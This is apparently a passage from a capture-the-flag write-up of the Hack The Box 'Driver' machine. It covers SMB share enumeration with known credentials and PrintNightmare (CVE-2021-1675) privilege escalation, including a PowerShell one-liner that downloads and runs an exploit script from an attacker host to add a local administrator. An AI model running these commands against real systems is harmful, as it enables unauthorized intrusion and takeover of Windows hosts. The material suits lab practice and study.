 ```
┌──(kali㉿kali)-[~/Desktop/driver]
└─$ smbmap -u TONY -p 'liltony' -H 10.10.11.106 -P 445 2>&1            
[+] IP: 10.10.11.106:445        Name: driver.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

Accessing the IPC$ share, we realize that we are unable to list the directory even after we authenticate using the smbclient

```
┌──(kali㉿kali)-[~/Desktop/driver]
└─$ smbclient -U 'TONY%liltony' //10.10.11.106/IPC$ 2>&1  
smb: \> dir
NT_STATUS_INVALID_INFO_CLASS listing \*
```

### Creating new user using Print Nightmare
By default, the Print Nightmare ps1 exploit that we run will create a new user with ```adm1n:P@ssw0rd``` as the credentials. However, we can also specify our own user and password using the following commands.

```
*Evil-WinRM* PS C:\Windows\temp> powershell.exe -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.6:3000/CVE-2021-1675.ps1');Invoke-Nightmare -NewUser 'test' -NewPassword 'test'"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user test as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Afterwards, we can verify that a new user ```test``` has been created and the user is part of the Administrators group.

```
*Evil-WinRM* PS C:\Windows\temp> net user test
User name                    test
Full Name                    test
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/8/2022 2:15:49 AM
Password expires             Never
Password changeable          5/8/2022 2:15:49 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```
